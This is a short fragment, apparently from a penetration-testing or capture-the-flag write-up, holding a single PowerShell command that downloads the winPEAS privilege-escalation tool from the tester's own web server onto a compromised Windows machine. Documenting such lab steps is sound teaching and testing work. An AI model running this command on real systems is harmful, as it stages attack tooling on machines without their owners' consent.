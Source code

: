 We can download to a remote machine a script from our web server with:
```powershell -c wget "http://10.11.28.137:8000/winpeas.exe" -outfile "win.exe"```